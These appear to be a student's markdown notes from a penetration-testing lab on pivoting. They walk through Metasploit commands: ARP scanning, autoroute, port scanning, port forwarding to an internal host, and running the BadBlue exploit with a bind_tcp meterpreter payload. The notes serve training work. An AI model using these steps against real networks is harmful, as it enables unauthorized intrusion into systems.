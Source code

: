 - copy the regsvr32 command and execute in the target machine

> [+] - this new INEs browser lab is the worst, where dafk is the openvpn access?
[+] - i want my money back lol

> anyway, we should get a shell

- discover new machines in the new network
ipconfig // to show the network 
```
run arp_scanner -r 10.100.40.0/24
```

- add a new route within meterpreter

```
	run autoroute -s 10.100.40.0/24
	background
```

- scan

```
	use auxiliary/scanner/portscan/tcp
	set options
	// port 80 is open
```

- portfwd the port 80 to our port 1234

```
	sessions -i 1
	portfwd add -l 1234 -p 80 -r 10.100.40.107
	portfwd list
```

- scan the **localhost** in another terminal // actually is the port 80 of the target

```
	nmap -sV -p 1234 localhost
```

- search for badblue exploit 
The 10.100.40.107 machine is not accessible from the Kali machine, so we cant use the reverse_tcp payload. This is an essential step \for us to choose the correct payload. In this case, we have to use the bind_tcp payload to gain the meterpreter session. 

- run the exploit windows/http/badblue_passthru

```
	set RHOSTS 10.100.40.107
	set PAYLOAD windows/meterpreter/bind_tcp
	exploit
	getuid
	sysinfo
```

> we should get a shell 

# Lab ICMP
